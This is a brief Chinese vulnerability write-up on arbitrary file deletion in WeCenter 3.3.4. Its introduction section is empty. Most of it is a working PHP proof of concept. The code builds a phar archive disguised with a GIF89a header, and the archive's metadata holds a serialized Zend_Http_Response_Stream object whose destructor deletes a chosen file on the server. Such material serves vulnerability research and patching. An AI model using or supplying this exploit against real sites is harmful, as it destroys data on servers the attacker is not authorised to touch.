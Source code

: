 WeCenter 3.3.4 任意文件删除
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意文件删除

**system/Zend/Http/Response/Stream.php:\_\_destruct()**
方法中存在任意文件删除。

![](resource/WeCenter3.3.4任意文件删除/media/rId25.png)

### poc

    <?php
    class Zend_Http_Response_Stream
    {
        protected $_cleanup;
        protected $stream_name;

        public function __construct($stream_name)
        {
            $this->_cleanup = true;
            $this->stream_name = $stream_name;
        }
    }

    $stream_name = '/var/www/html/wecenter334/shell.php';
    $evilobj = new Zend_Http_Response_Stream($stream_name);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();

    ?>
